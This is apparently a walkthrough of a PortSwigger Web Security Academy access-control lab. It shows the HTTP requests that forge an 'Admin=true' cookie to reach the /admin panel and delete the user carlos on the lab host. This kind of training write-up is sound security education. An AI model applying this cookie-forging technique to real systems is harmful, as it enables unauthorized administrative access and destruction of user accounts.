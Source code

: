 # [Lab 3: User role controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

---

## Description

This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

After successfully logging into the application with the non-administrative credentials `wiener:peter`, the application returned this response.

```http
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: Admin=false; Secure; HttpOnly
Set-Cookie: session=ELmcg8mZYTqmUDXvCGh0OBEZchW2O5GS; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

It sets two cookies: `session` and `Admin`. Generally, the `session` cookie would be associated with `wiener`'s user account on the backend and the application would check, with each request, whether or not `wiener` has access to the desired resource.

However, this application appears to track whether or not the current user has access to administrative functionality (i.e., the `/admin` panel) via the `Admin` cookie.

Request access to `/admin` with the `Admin` cookie set to `true`.

```http
GET /admin HTTP/1.1
Host: ac171f211fde6d3680e996dc009c00a9.web-security-academy.net
Cookie: session=ELmcg8mZYTqmUDXvCGh0OBEZchW2O5GS; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

This grants access to the administrator panel. Delete `carlos` with the `Admin` flag set to `true` to complete the challenge.

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: ac171f211fde6d3680e996dc009c00a9.web-security-academy.net
Cookie: session=ELmcg8mZYTqmUDXvCGh0OBEZchW2O5GS; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

